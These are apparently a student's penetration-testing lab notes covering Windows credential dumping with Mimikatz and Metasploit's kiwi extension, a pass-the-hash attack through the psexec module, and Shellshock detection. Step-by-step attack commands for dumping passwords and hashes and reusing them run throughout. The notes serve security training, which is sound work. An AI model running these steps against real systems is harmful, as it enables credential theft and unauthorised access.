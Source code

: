 - post exploitation tool
- allows extraction of clear-text passwords, hashes and Kerberos tickets from memory
- extract hashes from lsass.exe process memory
- can be utilized with meterpreter extention Kiwi
- Mimikatz will require elevated privleges in order to run correctly

1. nmap: `nmap -sV 10.10.x.x`
2. `service postgresql start && msfconsole`
3. search `search badblue`, look for for "exploit/windows/http/badblue_passthru"
4. set options and exploit
5. meterpreter: `sysinfo`, `getuid`, `pgrep lsass` -> migrate to number
6. `getuid` = NT AUTHORITY\SYSTEM
7. `load kiwi` -> `creds_all`
8. `lsa_dump_sam` and then `lsa_dump_secrets`
9. navigate: `cd C:\\` -> `mkdir Temp` -> `cd Temp` -> `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe` -> `shell`
10. open Mimikatz `.\mimikatz.exe`
11. check priveleges: `privilege::debug` -> Privelege '20' OK = good to go
12. `lsadump::sam`
13. `lsadump::secrets`
14. Display logon passwords `sekurlsa::logonpasswords`

### Pass-The-Hash Attack

DO MIMIKATZ FIRST!

- After optaining hashes
- Exploitation technique
- Tools: Metasploit PsExec module and Crackmapexec
- after attack will optain access to the target system via legitimate credentials as opposed to acces via service exploitation

1. From previously mimikatz dump, DO THAT FIRST!!
2. create a text file from dump from admins and users: copy the "Hash NTLM" and LM hash from step 3
3. `hashdump`, then copy see picture
   ![alt text](/assets/hash_dump.png)
4. background session: `search psexec` look for exploit/windows/smb/psexec
5. set options: check LPORT and maybe cahnge -> `set RHOSTS` -> `set SMBUSER Administrator` -> `set SMBPASS LM&NTLMHASH` <--- see picture for hash copied -> `set target Command` OR `set target Native\ upload` -> exploit

##  Frequently Exploited linux services / Linux exploitation and enumeration
- Apache web server | TCP 80/443
- SSH | TCP 22
- FTP | TCP 21
- SAMBA | TCP 445
  
  ### Shellshock(Exploiting Bash CVE-2014-6271 Vulnerability)
  - Prerequisites: locate an input vector or script that allows you to communicate with Bash
  - In the context of a web server, we can utilize any legitimate CGI scripts accessible on the web server
  - Whenever a CGI script is executed, the web server will initiate a new process and run CGI script with Bash
  - can be exploited manually or mMSF module
  - Special characters can be inserted in the User-Agent Header(see picture)
 1. scan with nmap
 2. open web page and inspect the source, look for script
 3. Identify with nmap if page is vulnerable: `nmap -sV 10.10.x.x --script=http-shellshock --script-args "http-shellshock.uri=/gettime.cgi"`